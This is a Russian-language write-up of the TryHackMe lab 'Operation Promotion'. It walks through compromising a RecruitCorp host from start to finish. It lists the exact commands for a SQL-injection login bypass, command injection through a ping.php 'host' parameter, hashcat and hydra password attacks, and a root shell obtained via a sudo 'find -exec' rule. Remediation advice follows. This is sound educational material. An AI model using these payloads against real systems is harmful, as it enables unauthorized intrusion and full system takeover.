





# Operation Promotion

> Компрометация RecruitCorp через SQL-инъекцию, OS Command Injection, целевой подбор SSH-пароля и небезопасное правило `sudo` для `/usr/bin/find`.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Ubuntu Linux |
| Категория | Web / Linux Privilege Escalation |
| Основные техники | SQL injection, OS command injection, credential discovery, targeted password guessing, sudo abuse |

## Краткое резюме

SQL-инъекция в административной форме позволила обойти аутентификацию. В панели управления был обнаружен `ping.php`, передававший параметр `host` системной команде без безопасной обработки, что позволило выполнять команды от имени `www-data`. Локальная разведка раскрыла пользователя `jford` и конфигурационный файл с хешем пароля.

После неуспешной словарной проверки был использован контекст главной страницы для целевого подбора пароля `jford`. SSH-доступ предоставил пользовательский флаг, а `sudo -l` показал возможность запускать `/usr/bin/find` от имени `root` без пароля. Параметр `-exec` был использован для запуска привилегированной оболочки и чтения системного флага.

## Разведка
### Первичное сканирование портов
Для определения доступных сетевых сервисов был выполнен первичный скан стандартных TCP-портов с определением версий сервисов и операционной системы:

```bash
nmap -sV -O TARGET_IP
```

Результат:
```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-10 11:52 UTC
Nmap scan report for TARGET_IP
Host is up (0.00052s latency).
Not shown: 996 closed tcp ports (reset)

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
```

Были обнаружены следующие открытые порты:

|Порт|Сервис|Назначение|
|--:|---|---|
|22/tcp|SSH|Удалённое администрирование|
|80/tcp|HTTP|Веб-приложение RecruitCorp|
|139/tcp|NetBIOS/SMB|Сетевой файловый сервис|
|445/tcp|SMB|Сетевой файловый сервис|

Основным вектором дальнейшего исследования был выбран веб-сервис на порту `80/tcp`. Порты SMB были зафиксированы как потенциальные дополнительные точки входа, однако дальнейшая эксплуатация через них для прохождения комнаты не потребовалась.

### Анализ веб-приложения

Главная страница веб-приложения была открыта во встроенном браузере Burp Suite.


На главной странице не было обнаружено очевидных элементов, предоставляющих прямой доступ к закрытым функциям. Для поиска скрытых директорий и файлов был использован `Gobuster`:
```bash
gobuster dir \
  -u http://TARGET_IP \
  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Фрагмент результата:
```text
/admin                (Status: 301) [Size: 314] []] http://TARGET_IP/admin/]
/config               (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
```
Каталог `/admin/` перенаправлял на доступную административную панель. Каталоги `/config` и `/server-status` возвращали ответ `403 Forbidden`, поэтому на текущем этапе они были отложены для дальнейшего анализа.

## Получение первоначального доступа
### Обход аутентификации через SQL-инъекцию
В каталоге `/admin/` была обнаружена форма аутентификации.


Для проверки формы на SQL-инъекцию в поле `Username` была передана следующая полезная нагрузка:
```sql
admin' OR 1=1 -- -
```

В поле пароля было указано произвольное значение.

После отправки запроса приложение перенаправило сессию на `/dashboard`, предоставив доступ к административному интерфейсу.

Полученный результат подтверждает возможность обхода аутентификации вследствие небезопасной обработки пользовательского ввода в SQL-запросе.

**Влияние:** неаутентифицированный пользователь может получить административный доступ к приложению.

### Анализ функции User Lookup
В административной панели присутствовала функция `User Lookup`, выполнявшая переход на страницу `lookup.php`.



Параметр идентификатора пользователя был проверен со следующими значениями:
```text
0
1–10
отрицательные значения
нечисловые и иные некорректные значения
```

Для идентификатора `7` была обнаружена запись сервисной учётной записи.


Остальные проверенные значения не предоставили полезной информации.

### Обнаружение OS Command Injection
В ходе дальнейшего исследования административного интерфейса был обнаружен служебный обработчик:
```text
/admin/sysmaint-checks/ping.php
```

Страница отображала инструкцию по использованию:
```text
Usage: /admin/sysmaint-checks/ping.php?host=<target>
```

Для проверки штатной работы обработчика был отправлен запрос с адресом loopback-интерфейса:
```text
/admin/sysmaint-checks/ping.php?host=127.0.0.1
```



Приложение вернуло результат выполнения `ping`, что указывало на передачу значения параметра `host` системной команде.

Для проверки внедрения команд после корректного IP-адреса был добавлен оператор завершения команды `;` и команда `ls`:
```text
/admin/sysmaint-checks/ping.php?host=127.0.0.1;ls
```

Полученный ответ:
```text
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.023 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.023/0.023/0.023/0.000 ms
ping.php
```

Вывод второй команды был отображён в HTTP-ответе. Таким образом, была подтверждена уязвимость **OS Command Injection** с видимым выводом команд.

**Влияние:** удалённый пользователь, получивший доступ к обработчику, может выполнять произвольные системные команды с привилегиями процесса веб-сервера.

> Далее в примерах указывается только внедряемая команда, то есть часть запроса после символа `;`. Пробелы при передаче через URL кодировались как `%20`.

## Исследование системы
### Определение текущего контекста
Текущая рабочая директория:

```bash
pwd
```
Результат:
```text
/var/www/html/admin/sysmaint-checks
```

Определение пользователя и его групп:
```bash
whoami; id
```

Результат:
```text
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Команды выполнялись от имени непривилегированного пользователя веб-сервера `www-data`.

### Перечисление локальных пользователей

Содержимое каталога `/home`:
```bash
ls /home
```

Результат:
```text
jford
ubuntu
```

Была обнаружена локальная учётная запись `jford`. Поскольку на сервере был доступен SSH, данная учётная запись рассматривалась как потенциальная цель для получения интерактивного доступа.

### Исследование файлов веб-приложения

Структура каталога веб-сервера:
```bash
ls /var/www
```
```text
html
```

```bash
ls /var/www/html
```
```text
admin
config
index.php
robots.txt
style.css
```

В каталоге `/var/www/html/config` был обнаружен файл конфигурации:
```bash
ls /var/www/html/config
```
```text
db.conf
```

Содержимое файла:
```bash
cat /var/www/html/config/db.conf
```
```text
# RecruitCorp application database config
# Pulled out of source control - DO NOT COMMIT.
db_host=localhost
db_name=recruitcorp
db_user=jford
db_pass_hash=##################
db_engine=sqlite3
```

Файл раскрыл имя пользователя `jford` и хеш пароля. Полученное значение было сохранено локально для автономного анализа:
```bash
echo '##################' > hash.txt
```
### Анализ хеша

Для определения возможного формата хеша использовалась функция идентификации `Hashcat`:
```bash
hashcat --identify hash.txt
```

Результат:
```text
The following 4 hash-modes match the structure of your input hash:

      # | Name
  ======+============================================================
   3200 | bcrypt $2*$, Blowfish (Unix)
  25600 | bcrypt(md5($pass)) / bcryptmd5
  25800 | bcrypt(sha1($pass)) / bcryptsha1
  28400 | bcrypt(sha512($pass)) / bcryptsha512
```

Структура значения была совместима с семейством bcrypt. В качестве наиболее вероятного варианта был выбран стандартный режим bcrypt — `3200`.
Для проверки паролей из словаря была запущена словарная атака:
```bash
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Параллельно была запущена словарная атака на SSH для пользователя `jford`:
```bash
hydra -l jford \
  -P /usr/share/wordlists/rockyou.txt \
  ssh://TARGET_IP
```
### Целевой подбор пароля
На главной странице приложения был обнаружен текстовый блок `Spring 2026 Hiring Drive`. На его основе был сформирован небольшой набор контекстных паролей.
```text
###
###
###
```

Один из созданных вариантов оказался действительным паролем пользователя `jford`.
Данный шаг представляет собой **целевой подбор пароля на основе информации из приложения**, а не полный перебор пространства возможных значений.

## Доступ по SSH и пользовательский флаг

Подключение к системе:
```bash
ssh jford@TARGET_IP
```

После успешной аутентификации в домашнем каталоге пользователя `jford` был обнаружен файл `user.txt`.
```bash
ls -la ~/
cat ~/user.txt
```

Пользовательский флаг был успешно извлечён.

## Повышение привилегий
### Проверка разрешённых команд sudo

Для анализа делегированных привилегий была выполнена команда:
```bash
sudo -l
```

Результат:
```text
Matching Defaults entries for jford on recruitcorp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jford may run the following commands on recruitcorp:
    (root) NOPASSWD: /usr/bin/find
```
Пользователь `jford` мог запускать `/usr/bin/find` от имени `root` без ввода пароля.

### Обнаружение системного флага
С использованием разрешённой команды был выполнен поиск файла `flag.txt`:
```bash
sudo -u root /usr/bin/find / -type f -name 'flag.txt' 2>/dev/null
```
Результат:
```text
/root/flag.txt
```

Попытка обратиться к файлу из непривилегированной оболочки завершилась ошибкой:
```bash
ls -lah /root/flag.txt
```
```text
ls: cannot access '/root/flag.txt': Permission denied
```
Ошибка связана с отсутствием у пользователя `jford` прав на прохождение каталога `/root`.

### Эксплуатация разрешения на запуск find
Утилита `find` поддерживает параметр `-exec`, позволяющий запускать внешние команды. Поскольку сама утилита выполнялась через `sudo` от имени `root`, запускаемый дочерний процесс также наследовал привилегии `root`.

Для получения привилегированной оболочки использовалась следующая команда:
```bash
sudo -u root /usr/bin/find . -exec /bin/sh \; -quit
```
После получения оболочки привилегии были проверены командой:
```bash
id
```
```text
uid=0(root) gid=0(root) groups=0(root)
```

Системный флаг был прочитан:
```bash
cat /root/flag.txt
```

Источник техники: GTFOBins.

## Рекомендации

### Защита формы аутентификации

- Использовать параметризованные запросы или подготовленные выражения.
- Не формировать SQL-запросы путём конкатенации пользовательского ввода.
- Добавить журналирование неуспешных попыток входа и ограничение частоты запросов.
- Использовать многофакторную аутентификацию для административных учётных записей.

### Устранение OS Command Injection

- Исключить вызов shell для выполнения `ping`.
- Использовать безопасный системный API с передачей аргументов отдельным массивом.
- Проверять параметр `host` по строгому списку допустимых форматов.
- Ограничить доступ к диагностическим функциям и удалить их из production-среды.
- Не возвращать пользователю сырой вывод системных команд.

### Защита конфигурационных данных

- Хранить секреты вне web-root.
- Ограничить права чтения конфигурационных файлов.
- Не использовать один и тот же пароль для приложения и системной учётной записи.
- Применять менеджер секретов и выполнять регулярную ротацию учётных данных.

### Усиление парольной политики

- Запретить пароли, основанные на названии компании, сезонах, годах, кампаниях и другом публичном контексте.
- Проверять новые пароли по базам скомпрометированных и распространённых значений.
- Настроить ограничение попыток входа и защиту от password spraying.
- Использовать SSH-ключи вместо парольной аутентификации.

### Исправление конфигурации sudo

- Удалить правило `NOPASSWD` для `/usr/bin/find`.
- Не разрешать запуск от `root` утилит, поддерживающих выполнение внешних команд.
- Разрешать только специализированные команды или скрипты с фиксированными аргументами.
- Регулярно проверять конфигурацию `sudoers` и сопоставлять разрешённые бинарные файлы с GTFOBins.

## Итог

Целевая система была полностью скомпрометирована. Получены оба флага, достигнут интерактивный доступ по SSH и выполнено повышение привилегий до `root`.

Ключевой причиной компрометации стала не одна уязвимость, а последовательность взаимодополняющих ошибок: SQL-инъекция предоставила доступ к административным функциям, OS Command Injection позволила выполнять команды на сервере, слабая защита конфигурационных данных и предсказуемый пароль обеспечили SSH-доступ, а небезопасная конфигурация `sudo` привела к полной компрометации системы.

## Ключевые выводы

- SQL-инъекция в форме входа может сразу предоставить доступ к административной поверхности атаки.
- Диагностические функции, передающие пользовательский ввод shell-командам, требуют строгой валидации и отказа от вызова оболочки.
- Конфигурационные файлы веб-приложения могут раскрывать полезные сведения о локальных пользователях даже без хранения пароля в открытом виде.
- Разрешение `sudo` на бинарник с возможностью запуска дочерних команд, такой как `find -exec`, эквивалентно потенциальному повышению привилегий до `root`.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Сканирование сетевых сервисов |
| `Gobuster` | Поиск скрытых директорий |
| `Burp Suite` | Исследование веб-приложения |
| `Hashcat` | Идентификация и словарная проверка хеша |
| `Hydra` | Словарная проверка SSH |
| `SSH` | Интерактивный доступ к системе |

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
